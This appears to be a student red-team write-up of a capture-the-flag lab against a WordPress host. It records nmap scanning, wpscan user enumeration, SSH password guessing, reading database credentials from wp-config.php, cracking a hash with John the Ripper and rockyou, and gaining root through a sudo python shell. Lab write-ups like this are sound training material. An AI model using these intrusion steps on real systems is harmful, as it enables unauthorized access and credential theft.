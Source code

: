 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap ... `nmap -sV 192.168.1.110`
![nmap](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/nmap.PNG)
```

This scan identifies the services below as potential points of entry:
- Target 1
  - 22/tcp ssh
  - 80/tcp http
  - 111/tcp rpcbind
  - 139/tcp Netbois
  - 445/tcp Microsoft-ds




The following vulnerabilities were identified on each target:
- Target 1
  - Vulnerable Word Press (wpscan user enumeration)
  - Weak user password
  - Misconfigured User Privileges leading to privilege escalation
  - Unsalted passwords


### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: `b9bbcb33ellb80be759c4e844862482d`
    - **Exploit Used**
      - WPscan was used from the attack machine to enumerate the users on the Target1 wordpress site
      - The Command use
        - `wpscan --url 192.168.1.110/wordpress/ -e u`
      - SSH'd into `192.168.1.110` using the user `Michael` guessed the weak password `Michael`
      - Navigated to /var/wwww/html/
      - Ran `nano services.html` and in the footer information found Flag1
![Flag1](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/Flag1.PNG)

  - `flag2.txt`:`flag2{fc3fd58dcdad9ab23faca6e9a3e581c}`
    - **Exploit Used**
      - Flag2 was located while exploring `Target1` to find other potential useful files.
      - `cd ..`
      - `ls`
      - `nano flag2.txt`
![flag2](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/Flag2.PNG)

 - `flag3.txt`:`flag3{afc01ab56b50591e7dccf93122770cd2}`
    - **Exploit Used**
      - During infiltration `wp-config.php` was found at `/var/www.html/wordpress`
      - `nano wp-config.php` and found the admin user is `root` and the password is `R@v3nSecurity`
      - `Crtl X` to exit nano.
      - `myspql --user=root --password=R@v3nSecurity -h 127.0.0.1` to enter the database
      - `showdatabases;` to view databases
      - `use wordpress;` to use the wordpress database
      - `select * from wp_posts;` to find flag3 and flag4 in wp_posts.
      - `select * from wp_users;` to find users and password hashes.
![dbusername](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/databasepswrd.PNG)
![Flag3](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/Flag3and4.PNG)

 - `flag4.txt`:`flag4{715dea6c055b9fe3337544932f2941ce}`
    - **Exploit Used**
      - Simple password and unsalted hash
        - Created a hash.txt that contained user `steven` hash `$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/` on attacking machine
        - Copied `Rockyou.txt` from `/usr/share/wordlists/rockyou.txt wp_hashes.txt` incase it is needed for another hash crack. 
        - Ran `john hash.txt --wordlist=rockyou.txt` and found that the password is `pink84`
        - Ran `-ssh steven@192.168.1.110` using pink84 as the password. 
        - Ran `sudo python -c "import pty;pty.spawn('/bin/bash')"` this gave Root privileges
        - `CD /root`
        - `ls` saw flag4.txt
        - `cat flag4.txt` to find the flag. 
        ![flag4](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/Flag4.PNG)
